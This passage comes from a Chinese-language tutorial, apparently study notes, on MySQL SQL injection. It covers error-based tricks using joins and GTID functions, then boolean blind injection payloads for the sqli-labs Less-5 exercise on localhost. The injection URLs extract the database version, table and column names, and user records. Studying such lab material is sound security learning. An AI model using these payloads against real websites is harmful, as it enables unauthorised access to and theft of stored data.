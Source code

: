 ```mysql
mysql>select * from(select * from users a join (select * from users)b)c;
mysql>select * from(select * from users a join (select * from users)b using(username))c;
mysql>select * from(select * from users a join (select * from users)b
using(username,password))c
```

**GTID相关函数**

从MySQL 5.6.5 开始新增了一种基于GTID 的复制方式。通过GTID 保证了每个在主库上提交的事务在集群中有一个唯一的ID。这种方式强化了数据库的主备一致性，故障恢复以及容错能力。

GTID (Global Transaction ID)是全局事务ID,当在主库上提交事务或者被从库应用时，可以定位和追踪每一个事务，对DBA来说意义就很大了，我们可以适当的解放出来，不用手工去可以找偏移量的值了，而是通过CHANGE MASTER TO MASTER\_HOST='xxx', MASTER\_AUTO\_POSITION=1的即可方便的搭建从库，在故障修复中也可以采用MASTER\_AUTO\_POSITION=‘X’的方式。

可能大多数人第一次听到GTID的时候会感觉有些突兀，但是从架构设计的角度，GTID是一种很好的分布式ID实践方式，通常来说，分布式ID有两个基本要求：  
1）全局唯一性  
2）趋势递增  
这个ID因为是全局唯一，所以在分布式环境中很容易识别，因为趋势递增，所以ID是具有相应的趋势规律，在必要的时候方便进行顺序提取，行业内适用较多的是基于Twitter的ID生成算法snowflake,所以换一个角度来理解GTID，其实是一种优雅的分布式设计。

```mysql
mysql>select gtid_subset(user(),1);
mysql>select gtid_subset(hex(substr((select * from users limit
1,1),1,1)),1);
mysql>select gtid_subtract((select * from(select user())a),1);
```

**报错函数速查表**

![image-20210906154928985](https://gitee.com/ccship/PicGo_Images/raw/master/images/202110211155004.png)

**sqli-labs/less-5**

**一：盲注**

```mysql
（1）利用left(database(),3)进行尝试
http://127.0.0.1/sqli-labs/Less-5/?id=1' and left(version(),3)=5.7--+
    接下来看一下数据库的长度
http://127.0.0.1/sqli-labs/Less-5/?id=1' and length(database())=8--+
    猜测数据库第一位
http://127.0.0.1/sqllib/Less-5/?id=1'and left(database(),1)>'a'--+
    用此方法推测出其他几位
（2）利用substr() ascii()函数进行尝试/left也可以，都行
http://127.0.0.1/sqli-labs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>65 --+
    用此方法推测出其他几位，得到第一个表名
    接下来用limit 1,1得到第二个表名，以此类推
（3）利用regexp 获取表中的列
http://127.0.0.1/sqli-labs/Less-5/?id=1' and 1=(select 1 from information_schema.columns where table_name='users' and column_name regexp '^us[a-z]' limit 0,1)--+
    用此方法推测出其他几位，得到列名
（4）利用ord()和mid()函数获取users 表的内容
http://127.0.0.1/sqli-labs/Less-5/?id=1' and ord(mid((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))=68--+
    解释：
    IFNULL(v1,v2):如果 v1 的值不为 NULL，则返回 v1，否则返回 v2。
    CAST(x AS type)：转换数据类型
    SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1
    所以这句就是先从表users将username字段取出通过order by进行升序，取出第一行的数据，再cast将其转化为字    符类型，在通过IFNULL判断其里面的数据是否为空，不为空则返回其数据。
以上（1）（2）（3）（4）我们通过使用不同的语句，通过布尔盲注SQL把所有的payload 进行演示了一次。想必通过实例更能够对sql 布尔盲注语句熟悉和理解了
```
